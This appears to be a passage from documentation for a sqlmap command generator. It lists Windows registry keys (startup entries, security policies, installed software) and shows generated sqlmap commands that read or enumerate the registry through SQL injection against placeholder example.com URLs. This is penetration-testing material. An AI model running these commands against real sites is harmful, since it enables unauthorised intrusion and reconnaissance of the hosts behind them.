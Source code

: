 ### Software Inventory
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall
HKCU\Software\Microsoft\Windows\CurrentVersion\Uninstall
HKLM\SOFTWARE\Classes\Installer\Products
```

### Startup Programs
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

### Security Settings
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies
HKCU\Software\Microsoft\Windows\CurrentVersion\Policies
HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy
```

### User Information
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer
HKCU\Software\Classes
HKCU\Software\Microsoft\Internet Explorer
```

## 📝 Usage Examples

### Read System Information
```
Registry Key: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion
Registry Value: ProductName
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --reg-read --reg-key="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" --reg-val="ProductName"
```

### Check Installed Software
```
Registry Key: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall
Enumerate: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/admin.php?id=1" --reg-enum --reg-key="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall"
```

